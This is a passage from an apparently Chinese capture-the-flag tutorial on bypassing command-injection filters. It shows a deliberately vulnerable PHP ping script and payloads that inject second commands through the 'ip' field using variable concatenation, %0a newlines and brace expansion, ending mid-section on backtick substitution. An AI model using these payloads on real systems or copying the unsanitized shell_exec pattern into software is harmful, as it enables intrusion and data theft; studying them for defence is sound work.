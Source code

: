 为了绕过敏感字符（或黑名单），除了用以上说的编码绕过外，还可以用命令偶读拼接绕过。

```php
<?php
  if( isset( $_POST[ 'Submit' ]  ) ) {
  // Get input
  $target = $_REQUEST[ 'ip' ];
// Determine OS and execute the ping command.
if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
  // Windows
  $cmd = shell_exec( 'ping  ' . $target );
}
else {
  // *nix
  $cmd = shell_exec( 'ping  -c 4 ' . $target );
}
// Feedback for the end user
echo "<pre>{$cmd}</pre>";
}
?>
```

构造payload，来进行偶读拼接绕过：

```powershell
?ip=127.0.0.1;a=l;b=s;$a$b
?ip=127.0.0.1;a=fl;b=ag;cat /$a$b;
```

原理如下：即在Linux中，命令是可以拼接执行的。

##### 用 %0a 绕过命令连接符

当题目代码将一下字符全部过滤后：

**[ $    {    }    `    ;    &    |    (    )    \     '    ~    !    @    #    %    ^    \*    [    ]    \\    :    -    _ ]**

我们可以用 %0a 进行绕过，%0a 代表换行的意思，通过 %0a 能够注入新的一条命令进行执行：

```shell
?ip=127.0.0.1%0als
?ip=127.0.0.1%0acat /flag
```

##### 花括号{command,}的别样用法

在Linux bash中还可以使用花括号{OS_COMMAND,ARGUMENT}来执行系统命令，{ls,}

**注意：别忘了{,}里面的逗号，如{ls}这个不能执行，必须要{ls,}这样。**

##### 用内联执行绕过关键字过滤

命令替代，大部分Unix shell以及编程语言如Perl、PHP以及Ruby等都以成对的反引号作指令替代，意思是以某一个指令的输出结果作为另一个指令的输入项。linux下反引号``里面包含的就是需要执行的系统命令，而反引号里面的系统命令会先执行，成功执行后将结果传递给调用它的命令(就是将反引号内命令的输出作为输入执行)，类似于|管道

###### 反引号``
